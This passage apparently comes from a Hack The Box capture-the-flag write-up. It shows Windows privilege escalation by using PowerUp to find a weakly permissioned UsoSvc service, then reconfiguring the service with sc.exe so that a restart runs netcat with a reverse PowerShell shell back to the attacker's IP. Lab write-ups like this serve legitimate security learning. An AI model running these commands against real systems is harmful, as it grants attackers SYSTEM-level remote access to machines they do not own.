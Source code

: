 Now that the script is downloaded and we've imported the module, let's run the `Invoke-AllChecks` command.

```powershell
> Invoke-AllChecks

[...]

[*] Checking service permissions...


ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True

[...]
```

Looks like we have a service that we can abuse. The Update Orchestrator or UsoSvc can be abused by allowing our current user to manipulate the service path so that when the service is stopped and started, it'll execute a command as system. [This article](https://www.ired.team/offensive-security/privilege-escalation/weak-service-permissions) by Read Team Experiments gives a bit more detail.

The PowerUp script suggests a command in its results, `Invoke-ServiceAbuse`, but this didn't work consistently enough, so let's do it manually.

First, we'll listen on a new port for a reverse shell.

```bash
$ nc -lvnp 4446
```

Next, let's use `sc.exe` to configure the binpath of the UsoSvc service. We'll change it to a command that will run our Netcat executable to open reverse Powershell session at the port we specified.

```powershell
> sc.exe config UsoSvc binpath="C:\Users\Public\Documents\nc.exe 10.10.15.50 4446 -e powershell.exe"
```

Now, let's stop and start the service.

```powershell
> sc.exe stop usosvc
> sc.exe start usosvc
```

Back on our machine, our listener should connect, with a system shell. Let's grab the root flag!

![](/assets/img/posts/htb/07-2020-2/root-flag.png)
